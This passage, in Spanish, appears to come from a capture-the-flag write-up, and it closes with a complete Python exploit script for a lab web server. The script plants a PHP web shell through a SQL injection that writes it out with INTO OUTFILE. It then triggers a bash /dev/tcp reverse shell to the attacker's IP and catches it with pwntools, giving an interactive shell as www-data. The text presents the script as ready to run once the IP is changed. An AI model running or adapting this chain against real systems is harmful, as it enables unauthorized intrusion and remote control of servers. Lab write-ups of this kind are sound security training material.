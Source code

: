 ```python
if __name__ == '__main__':
    sqli()
    threading.Thread(target=reverse, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()
```
En primer lugar, llamamos a la función **sqli** para que suba el archivo malicioso a la web. En segundo lugar, trabajamos con hilos para que la función reverse se ejecute correctamente mientras estamos esperando una conexión por el puerto 1234 para luego tener una consola interactiva.

Con todo lo anterior, basta con cambiar la IP dependiendo de cual tengas y al ejecutar el código tendras una reverse shell para el usuario **www-data**.

El código completo es:

```python
import requests
from pwn import *


target = 'http://10.10.11.116'
target2 = 'http://10.10.11.116/evil.php'
ip = '10.10.14.17' # cambiar esto
session = requests.session()

def sqli():

    payload=  """Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/evil.php"-- -"""
    
    post_data =  {
        'username':'test',
        'country':payload
    
    }

    session.post(target,data=post_data)


def reverse():

    payload ="bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'" %ip

    post_data={

        'cmd':payload

    }

    session.post(target2,data=post_data)

if __name__ == '__main__':
    sqli()
    threading.Thread(target=reverse, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()

```

!Listo! 

Hemos realizado la automatización de la intrusión.

Nos vemos, hasta la próxima.

